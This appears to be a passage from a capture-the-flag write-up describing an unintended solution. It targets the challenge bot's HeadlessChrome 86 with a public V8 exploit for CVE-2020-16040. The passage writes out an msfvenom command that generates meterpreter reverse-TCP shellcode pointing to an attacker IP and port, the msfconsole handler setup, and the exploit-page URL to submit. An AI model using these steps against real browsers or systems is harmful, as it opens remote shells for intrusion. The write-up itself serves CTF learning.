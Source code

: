 ![](https://i.imgur.com/GpCnz2c.png)

### Unintend solution - Chrome 1day

we can see the bot UA is HeadlessChrome/86.0.4240.75 which affected by chrome v8 1day: https://github.com/r4j0x00/exploits/tree/master/CVE-2020-16040

generate shellcode:

```bash
$ msfvenom -a x64 -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.200.130 LPORT=4444 -f c > shell.c
```

msfconsole set listener:

```bash
$ msfconsole
use exploit/multi/handler
set PAYLOAD linux/x64/meterpreter/reverse_tcp
set LHOST 192.168.200.130
set LPORT 4444
exploit
```

submit link with the exploit page:

```tex
http://192.168.200.1:8000/exploit.html
```

![](https://i.imgur.com/AblXuGN.png)
